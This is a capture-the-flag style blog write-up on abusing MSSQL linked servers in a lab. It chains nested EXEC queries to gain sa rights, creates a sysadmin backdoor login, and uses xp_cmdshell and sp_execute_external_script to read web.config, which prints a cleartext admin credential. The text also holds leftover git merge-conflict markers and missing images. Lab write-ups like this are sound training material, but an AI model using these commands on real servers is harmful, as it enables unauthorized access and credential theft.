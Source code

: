 ```yaml
---
title: Abusing MSSQL Linked Servers [Adding sa user & File Read]
author: r0b0tG4nG
date: 2021-12-16 10:18:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, python , xp_cmdshell, sp_execute_external_script]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146367126-2c4334c7-4664-4581-9ab7-bcc2b0d9da0b.png)<br><br>


**> Information Gathering**<br>

Microsoft SQL Server is a <a href="https://en.wikipedia.org/wiki/Relational_database_management_system">relational database management system</a> developed by <a href="https://en.wikipedia.org/wiki/Microsoft">Microsoft</a>. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).<br>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library. More Information can be found at <a href="https://github.com/SecureAuthCorp/impacket">
SecureAuth Corporation</a><br>

In this engagement, we will use <a href="https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_24/examples/mssqlclient.py">Impacket-mssqlclient.py</a> script. First we will login to the mssql service using the `mssql-client.py`, to do this we will parse the database credentials and ip as agruments to the `mssql-client.py` script. `impacket-mssqlclient external_user:"#p00Public3xt3rnalUs3r#"@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365268-90142593-59e6-4a33-8d10-1f6d3286ea9b.png)<br>

After logging in to the mssql database, we will haev to check if the user has sysadmin privileges on the databases. This can be done by querying the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver15">syslogins table</a> using the command `SELECT name,sysadmin from syslogins;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365388-6c93e881-bde7-493d-842c-d4423239c15d.png)<br>

The database has two users `sa` & `external_user`. From the output, we can see the current user doesn't have `sysadmin privileges`, which means we can't use <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15">xp_cmdshell</a> to execute OS commands. We can check this by trying to enable `xp_cmdshell`<br>
![image](https://user-images.githubusercontent.com/67085453/146365484-c895eebc-9914-4b07-8b40-5c2e1cd12635.png)<br>

Microsoft SQL servers provides the ability to link external resources such as Oracle databases and other SQL servers. This is common to find in domain environments and can be exploited in case of misconfigurations. To verify if there are any linked servers on the current database, we will have to query the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver15">sysservers table</a> by executing the command `select srvname,isremote from sysservers;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365758-f02ba0e1-f680-487e-8edd-3302e1026288.png)<br>

Quering the table displayed two entries: `POO_PUBLIC (current server)` and `POO_CONFIG`. According to the documentation, `isremote column` determines if a server is linked or not. The `value 1` stands for `remote server`, while the value `0 stands for a linked server`. From this, we can conclude that `POO_CONFIG` is a linked server.<br>

From the docs, `EXEC` statement can be used to execute queries on linked servers. The next step is to find out the user in whose context we will be able to query the linked server. To do this, we will type `EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`<br>
![image](https://user-images.githubusercontent.com/67085453/146365942-3a17d65c-fa93-457b-b35e-8c9486a698e5.png)<br>

The queries on the linked server `POO_CONFIG` are running as `internal_user`. To do greater damage, in this scenario, we will need the permissions of the `sa` user, so its best to check is the `internal_user` is `sa` on the targett or has `sa` privileges assigned to this user. To do this, we will execute the commmand `EXECUTE ('SELECT name,sysadmin from syslogins;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366041-0c7e6ba7-4f7f-4d23-9751-e64b5f691fcc.png)<br>

Bad luck on our side, the user `internal_user` is also not a `sysadmin` on the target. That is not the end remember this target has linked databases so we can try to enumerate the `POO_CONFIG` server to see if it has more links. We can recon on more links using `EXECUTE ('select srvname,isremote from sysservers;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366129-93d9a1e9-7d5a-4ad1-bdc9-c266f4e62d5e.png)<br>
<<<<<<< HEAD


**> Adding SA User**<br>
=======
>>>>>>> 82660a86937180fc6fb5b9124f640a07818827ec

From the image above, we can see that `POO_CONFIG` is in turn linked to `POO_PUBLIC`, making it a circular link. This is good news to the eyes since we can use nested queries to find out what user we're running as. Let's execute this command `EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366345-e90d8172-c3a7-4b0c-850f-1a1553ccae17.png)<br>

A nested `EXEC statement` is used to find the username after crawling back from the `POO_CONFIG link`. The query returned `sa`, which means that the link allows us to execute queries as the `sysadmin user` on our current database `POO_PUBLIC`. The diagram below shows how the links are crawled in order to attain `sa privileges`. We can use these privileges to change the `sa password` on `POO_PUBLIC`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366439-f55a6706-98fe-4852-89c1-ce94c45b4d8e.png)<br>

With this information, we can add a new `sa user` to the `POO_PUBLIC` database using a nested query. We will add a new SQL user named `r0b0t` with the password `P@ssword123` . The `r0b0t` user will be granted `sysadmin level privileges`. To avoid errors, we all single quotes should be escaped with another quote.<br>

We now add the `r0b0t` user and also grant him the `sysadmin privileges`. To achieve this, we will use the following commands. <br> 
`EXECUTE('EXECUTE(''CREATE LOGIN r0b0t WITH PASSWORD = ''''P@ssword123'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG" `<br>
`EXECUTE('EXECUTE(''sp_addsrvrolemember ''''r0b0t'''' , ''''sysadmin'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`<br>
![image](https://user-images.githubusercontent.com/67085453/146366521-20ad5699-cced-436f-a8ba-643acd48d2b9.png)<br>

The command was executed successfully without any errors. We can login to the `mssql` database using the username `r0b0t` & password `P@ssword123`. To achieve this, we will need `impacket-mssqlclient` script with the argument `impacket-mssqlclient r0b0t:'P@ssword123'@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366926-91d93953-d63f-431f-acb4-305e1f275077.png)<br>
<<<<<<< HEAD


**> File Read Using sp_execute_external_script**<br>

After a successful login with the `r0b0t` user credentials, we know this user has `sysadmin-level` privileges thus can enable and execute system commands using the `xp_cmdshell` stored procedure. To enable `xp_cmdshell` in `mssqlcient.py`, we will use the command `enable_xp_cmdshell` and install the new configuration using `RECONFIGURE`.We can test code execution using the command `xp_cmdshell whoami`.<b>
![image](enable cmd shell)<br>

The SQL Server service found to be running as a standard service account. The `IIS web.config` file mostly contains credentials. Our main target now is to grab the contents of this file. We can siimply do this using `xp_cmdshell icacls c:\inetpub\wwwroot\web.config`.<br>
![image](read fail)<br>
=======
>>>>>>> 82660a86937180fc6fb5b9124f640a07818827ec

Looks like we do not have permissions to read that file. What could be the problem? `icacls` is blocked on the target or we just lack permissions. So i tried to read other files on the target using the command `xp_cmdshell icacls c:\windows\system32\drivers\etc\hosts`.<br>
![image](icals hosts)<br>

<<<<<<< HEAD
So `icacls` works perfect all we need is to find a new way to read files on the target through `mssql`. After digging around, i found out that there is an `SQL Server feature` called <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>. This stored procedure allows us to execute external scripts written in `Ruby` or `Python`. So first we have to enable this procedure to test some python codes. To enable this feature, we will use the command `EXEC sp_configure 'external scripts enabled', 1` and install this configuration with the command `RECONFFIGURE`.<br> 
![image](enable scripts)<br>

With the feature enabled, We will build our external script using the python sample located at <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a> main page. For test purposes, we will look at executing an `external python script` to print out a text on our screen using the command `EXEC sp_execute_external_script @language = N'Python', @script = N'print( "r0b0t Test Print" );';`<br>
![image](echo)<br>

Our external python script works good the next thing we have to do is to read the `web.config` file from `c:\inetpub\wwwroot\` directory. To do this, we will import python `os module` and execute the command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("type C:\inetpub\wwwroot\web.config");';`<br>
![image](file read)<br>

Hehehee guess what?? we did it. We are able to read files on the target using `external python scripts`. Fruits of the hunt?? we actually found the credentials in the `web.config` file.
```shell
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
        -->

```


=======
>>>>>>> 82660a86937180fc6fb5b9124f640a07818827ec
